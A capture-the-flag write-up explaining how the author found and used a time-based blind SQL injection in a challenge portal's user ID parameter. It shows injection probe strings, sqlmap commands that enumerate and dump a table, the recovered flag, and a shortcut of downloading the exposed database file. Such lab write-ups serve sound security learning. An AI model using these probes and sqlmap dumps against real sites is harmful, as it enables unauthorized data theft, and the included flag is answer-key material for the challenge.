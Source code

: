 <img width="585" height="329" alt="Screenshot 2025-08-28 000356" src="https://github.com/user-attachments/assets/09bf13f0-6568-49c9-b4ea-6b851fda64b4" />

# Challenge

The portal lets you query a user profile by User ID `(/?id=)`. That’s a classic injection point.

<img width="692" height="558" alt="Screenshot 2025-08-28 000339" src="https://github.com/user-attachments/assets/66071333-4485-4d8c-a946-24722db24720" />

At first, I thought the challenge might just be about bruteforcing User IDs until the flag showed up. While testing, I reached ID 101 and found a profile called **admin_legacy** with the note *“Access is restricted.”*

<img width="827" height="667" alt="Screenshot 2025-08-28 000350" src="https://github.com/user-attachments/assets/8f6df78e-b595-4d2d-8194-67bb1a328a5e" />

That made me overthink for a while, maybe it needed some kind of header exploit to bypass the restriction. But after a bit of testing, it became clear the real issue wasn’t about headers or bruteforce at all. The real vulnerability was hiding in the SQL injection on the User ID parameter.

That’s when I circled back and realized the real vulnerability wasn’t about brute-forcing IDs or headers it was hiding in the **SQL query behind the User ID parameter**.

So my first instinct was to try the usual suspects:

`' OR 1=1--` - did it show all users?

`1' ORDER BY 5--` - maybe cause an error?

`' UNION SELECT null,...--` - maybe dump some data directly?

But every attempt came back flat. No error messages, no obvious changes in the page, and definitely no dumped rows. The app just kept calmly returning the same profile as if nothing had happened.

At that point, I started piecing it together: if the input is injectable but doesn’t give me data back, and also refuses to leak errors, then it’s not **error-based** or **UNION-based**. What I was dealing with was almost certainly **blind SQL injection**.

## Solution 

Before diving deeper manually, I kicked off a **sqlmap** scan with broader settings and left it running while I checked other challenges:

```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" \
  --batch --level=3 --risk=2
```

When I came back, sqlmap had confirmed my suspicion. The parameter `id` was indeed vulnerable:

<img width="983" height="401" alt="image" src="https://github.com/user-attachments/assets/7d40c8d6-6aa4-4417-a62f-811c73192081" />

No visible output, but controllable query delays meant **time-based blind SQLi** on **SQLite**.

Normally the next step would be to enumerate all databases and tables:

```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" --batch --dbs
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" --batch -D SQLite_masterdb --tables
```

From that list, one table stood out immediately:

<img width="369" height="159" alt="image" src="https://github.com/user-attachments/assets/c80cc498-6fb6-448f-9498-2b6911512fff" />

Then, Enumerate columns of `secret_flag`

```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" \
  --batch --dbms=SQLite --technique=T --time-sec=2 --threads=10 \
  -D SQLite_masterdb -T secret_flag --dump
```

- `--dbms=SQLite` → lock sqlmap onto the right backend.
- `--technique=T` → force time-based blind injection.
- `--time-sec=2` → 2-second delay probes (keeps it reliable but not painfully slow).
- `--threads=10` → speed up enumeration (parallel requests).

Once I confirmed the database contained a suspicious table named secret_flag, I went straight for it. Instead of bothering with the `users` or `sqlite_sequence tables`, I told sqlmap to dump everything from `secret_flag`:

## Flag

<img width="396" height="149" alt="image" src="https://github.com/user-attachments/assets/8be695c7-7915-4b14-860c-9de65c45299a" />

```
n3xt{t1m3_b4s3d_bl1nd_sqli_is_fun}
```

After solving it with blind SQL injection, I later discovered there was actually a much easier way. By enumerating the subdomain files, the entire SQLite database could be downloaded directly from:

```
https://nodeleaf.ctf.n3xtl3v3l.site/users.db
```

Opening this file locally with **sqlite3** `users.db` would instantly reveal the **secret_flag** table and the flag, skipping the time-based extraction entirely.
